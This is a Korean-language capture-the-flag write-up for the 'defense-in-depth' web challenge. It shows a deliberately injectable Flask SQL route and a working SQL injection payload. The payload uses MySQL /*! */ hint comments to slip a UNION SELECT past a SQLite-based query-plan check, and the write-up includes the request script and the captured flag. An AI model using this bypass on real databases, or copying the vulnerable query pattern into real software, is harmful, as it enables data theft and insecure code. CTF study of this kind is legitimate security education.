 # defense-in-depth

## 코드 분석

### **app.py**

BLACKLIST 필터링, EXPLAIN QUERY PLAN 쿼리로 WAF가 걸려있다.

```python
@app.route('/info/<path:name>', methods=['GET'])
def get_user_info(name):
    if len(name) > 100:
        return jsonify({"Message": "Why the long name? Are you Tung Tung Tung Tung Tung Tung Tung Sahua????"}), 403
    try:
        db = get_db()
        cursor = db.cursor()
    except Exception:
        print(traceback.format_exc())
        return jsonify({"Error": "Something very wrong happened, either retry or contact organizers if issue persists!"}), 500

# Verify that the query is good and does not touch the secrets table

    query = f"SELECT * from users WHERE name = '{name}'"
    for item in BLACKLIST:
        if item in query:
            return jsonify({"Message": f"Probably sus"}), 403
    try:
        explain = "EXPLAIN QUERY PLAN " + query
        cursor.execute(explain)
        result = cursor.fetchall()
        if len(result) > 7:
            return jsonify({"Message": "Probably sus"}), 403
        for item in result:
            if "secrets" in item[3]:
                return jsonify({"Message": "I see where you're going..."}), 403
    except Exception as e:
        print(traceback.format_exc())
        return jsonify({"Message": f"Probably sus"}), 403

# Now let the query through to the real production db

    cursor.close()

    try:
        cur = mysql.connection.cursor()
        cur.execute(query)
        records = cur.fetchall()[0]
        cur.close()
        return str(records)
    except Exception as e:
        print(traceback.format_exc())
        return jsonify({'Error': "It did not work boss!"}), 400
```

## Exploit

name 파라미터는 사용자 입력이 곧바로 SQL 쿼리 문자열 안에 삽입되기 때문에 SQL Injection이 가능한 지점이다. BLACKLIST 필터링만으로는 단순 키워드 우회가 가능하지만, 이 코드에서는 실제 SQL 쿼리 실행 전에 EXPLAIN QUERY PLAN을 사용해 쿼리 플랜을 분석하여 FLAG가 들어있는 secrets 테이블에 접근 시도 여부를 검사하기 때문에, 접근 시도가 감지되면 403 Forbidden 응답을 반환한다.

EXPLAIN QUERY PLAN을 실행하여 secrets 테이블 접근 여부를 검증하는 단계에서는 SQLite3이 사용되지만, 이 검증을 통과한 이후 실제 쿼리가 실행되고 데이터가 조회되는 단계에서는 MySQL이 사용된다. 이러한 구조로 인해 SQLite와 MySQL 간의 쿼리 파서 차이가 발생하며, SQLite에서는 해석되지 않는 MySQL의 힌트 구문(/*! ... */)을 이용해 검증을 우회할 수 있다. MySQL은 이 힌트 구문을 정상적으로 해석해 UNION SELECT 등의 구문을 실행하지만, SQLite에서는 이를 단순한 블록 주석(/* ... */)으로 처리하기 때문에 검증 단계에서는 차단되지 않고, 실행 단계에서만 동작하게 된다.

참고로, MySQL에서 key는 예약어이기 때문에 key를 컬럼 이름으로 사용하려면 반드시 백틱(`)으로 감싸주어야 한다.

```python
import requests

payload = "'/*! union select value, null, null from secrets where `key`='flag' */ order by '1"
url = "https://defense-in-depth.harkonnen.b01lersc.tf/info/" + payload

response = requests.get(url)
print(response.text)

# ('bctf{7h1s_1s_prob4bly_the_easiest_web_s0_go_s0lve_smt_3ls3_n0w!!!}', None, None)
```

## Reference

- [https://dev.mysql.com/doc/refman/8.0/en/comments.html](https://dev.mysql.com/doc/refman/8.0/en/comments.html)
- [https://dev.mysql.com/doc/refman/8.0/en/keywords.html](https://dev.mysql.com/doc/refman/8.0/en/keywords.html)